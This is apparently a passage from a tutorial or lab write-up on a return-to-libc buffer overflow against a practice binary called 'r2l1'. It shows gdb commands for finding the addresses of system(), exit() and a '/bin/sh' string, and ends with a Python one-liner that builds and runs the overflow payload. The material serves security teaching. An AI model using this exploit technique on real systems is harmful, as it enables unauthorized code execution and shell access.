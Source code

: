 ```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e464d0 <system>
```

> You need to run the program in gdb first so that it will load the shared library.

Then do the same for `exit()`:

```bash
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e38500 <exit>
```

The address contains a null byte. We can't use it, but looking at the code around exit, we can use the address right before since it's just a nop instruction:

```bash
(gdb) x/5i *exit-1
   0xf7e384ff:  nop
   0xf7e38500 <exit>:   endbr32
   0xf7e38504 <exit+4>: push   %esi
   0xf7e38505 <exit+5>: pop    %esi
```

Finally, we need the address of a '/bin/sh' string. We can be put the string in an environment variable:

```bash
$ env - MYSH=/bin/sh gdb r2l1
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) start
...
(gdb) x/2s *(char **)environ
0xffffdf98:     "PWD=/my/current/working/directory"
0xffffdfbd:     "MYSH=/bin/sh"
```

> libc actually contains a "/bin/sh" string, so we don't really need to supply the environment variable. You can verify this by using `strings /usr/lib/libc.so.6` from the terminal. You can find the address of this string in gdb by using `find &`*function*`,+9999999,"/bin/sh"`, where *function* is a libc function (e.g. `exit()`, `system()` or `printf()`).

Again, we need to add 5 bytes to the address to take us past the "MYSH=" part of the string. Now we got:

- 0xf7e464d0 <system>
- 0xf7e384ff <exit>
- 0xffffdfc2 "/bin/sh"

Now we are ready to exploit. We use `<<<` to feed the python output to the program's stdin.

```bash
(gdb) run <<< `python -c 'print 37 * "A" + "\xf7\xe4\x64\xd0"[::-1] + "\xf7\xe3\x84\xff"[::-1] + "\xff\xff\xdf\xc2"[::-1]'`
Input something: The first character was: A
[Detaching after fork from child process 14268]
[Inferior 1 (process 14265) exited normally]
```
